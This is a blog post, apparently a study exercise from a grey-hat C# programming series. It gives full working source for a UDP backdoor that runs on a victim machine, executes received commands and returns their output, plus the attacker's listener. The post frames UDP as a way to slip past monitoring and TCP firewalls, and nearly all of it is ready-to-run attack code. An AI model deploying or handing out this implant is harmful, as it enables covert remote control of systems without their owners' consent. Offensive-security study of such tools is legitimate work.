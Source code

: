 ```yaml
---
title: Creating a UDP listener and payload. 
date: 2021-07-09 12:50:47 +07:00
categories: greyhatcch4
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Creating a UDP listener and payload.
---
```


## We write a program to create a UDP payload and a listener to implement a UDP remote connection as an alternate channel of communication.

- UDP payloads/listeners can be used as an alternate channel of communication in monitored environments and are not heavily scrutinized. It is a connectionless protocol with no overhead to ensure deliverability hence it is blazingly fast.

- We use the UdpClient and Socket classes over UDP. 

- Both the attacker and victim machines will need to listen for UDP broadcasts as well as maintain a socket to broadcast data to another computer.

- The code on the target machine will listen on a UDP port for commands, execute them and return the output to the attacker's UDP socket, while the attacker maintains a listener and socket to execute pass these commands.

## CODE:

### UDP Payload -->

```csharp
using System;
using System.IO;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Net;
using System.Net.Sockets;
using System.Diagnostics;

// UDP payloads are used as an alternative to hosts that are heavily TCP firewalled, wherein both the target and attacker maintain a listening socket to broadcast data to each other.

namespace UDP_payload
{
    public class MainClass
    {
        public static void Main(string[] args)
        {
            Console.WriteLine("[+] Runnning UDP payload on port: " + args[0]);
            int lport = int.Parse(args[0]);
            using (UdpClient listener = new UdpClient(lport))
            {
                // Local Endpoint
                IPEndPoint localEP = new IPEndPoint(IPAddress.Any, lport);
                string cmd;
                byte[] input;

                // Recieving data from broadcasts, loops continiously until an empty string is recieved; Also blocks exec until a broadcast is recieved.
                while (true)
                {
                    // Recieve fills localEP address property with attackers IP and other connection info
                    input = listener.Receive(ref localEP);
                    cmd = Encoding.ASCII.GetString(input, 0, input.Length);
                    if (string.IsNullOrEmpty(cmd))
                    {
                        listener.Close();
                        return;
                    }

                    if (string.IsNullOrWhiteSpace(cmd))
                        continue;
                    string[] split = cmd.Trim().Split(' ');
                    string filename = split.First();
                    string arg = string.Join(" ", split.Skip(1));
                    string results = string.Empty;

                    // Executing the cmd and returning result to the sender
                    try
                    {
                        // Start local process
                        Process prc = new Process();
                        // Adding additional properties the the Process class
                        prc.StartInfo = new ProcessStartInfo();
                        prc.StartInfo.FileName = filename;
                        prc.StartInfo.Arguments = arg;
                        prc.StartInfo.UseShellExecute = false;
                        prc.StartInfo.RedirectStandardOutput = true;
                        prc.Start();
                        // Wait until process exits
                        prc.WaitForExit();
                        results = prc.StandardOutput.ReadToEnd();
                    }
                    catch
                    {
                        results = "[!] There was an error running the following command: " + filename + "\t" + arg;
                    }
                    //Creating UDP socket
                    using (Socket sock = new Socket(AddressFamily.InterNetwork,
                        SocketType.Dgram, ProtocolType.Udp))
                    {
                        IPAddress sender = localEP.Address;
                        // Creating new endpoint using senders IP
                        IPEndPoint remoteEP = new IPEndPoint(sender, lport);
                        byte[] resultBytes = Encoding.ASCII.GetBytes(results);
                        sock.SendTo(resultBytes, remoteEP);
                    }
                }

            }

        }
    }
}
```

### UDP Listener -->

```csharp
using System;
using System.IO;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Net;
using System.Net.Sockets;
using System.Diagnostics;

namespace UDP_listener
{
    public class MainClass
    {
        public static void Main(string[] args)
        {
            Console.WriteLine("[+] Running UDP client/listener");
            int lport = int.Parse(args[1]);
            using (UdpClient listener = new UdpClient(lport))
            {
                // Create local listener endpoint at 0.0.0.0 at specified port
                IPEndPoint localEP = new IPEndPoint(IPAddress.Any, lport);
                string output;
                byte[] bytes;

                // Creating variables to send UDP Broadcasts
                using (Socket sock = new(AddressFamily.InterNetwork, SocketType.Dgram, ProtocolType.Udp))
                {
                    // Convert to IPaddrs type Class
                    IPAddress addr = IPAddress.Parse(args[0]);
                    IPEndPoint addrEP = new IPEndPoint(addr, lport);

                    // Communicating with the target
                    Console.WriteLine("[+] Enter a command to send, or a blank line to quit");
                    while (true)
                    {
                        // Read cmd from std i/p
                        string command = Console.ReadLine();
                        byte[] buff = Encoding.ASCII.GetBytes(command);

                        try
                        {
                            sock.SendTo(buff, addrEP);

                            if (string.IsNullOrEmpty(command))
                            {
                                sock.Close();
                                listener.Close();
                                return;
                            }

                            if (string.IsNullOrWhiteSpace(command))
                                continue;

                            bytes = listener.Receive(ref localEP);
                            output = Encoding.ASCII.GetString(bytes, 0, bytes.Length);
                            Console.WriteLine(output);
                        }
                        catch (Exception ex)
                        {
                            Console.WriteLine("[!] Exception{0}", ex.Message);
                        }
                    }
                }
            }
        }
    }
}
```


## OUTPUT:

### Attacker -->

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/csharp/greyhatc/Ch4/UDP%20payload/udp_listener.png)

### Target Victim -->

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/csharp/greyhatc/Ch4/UDP%20payload/udp_payload.png)
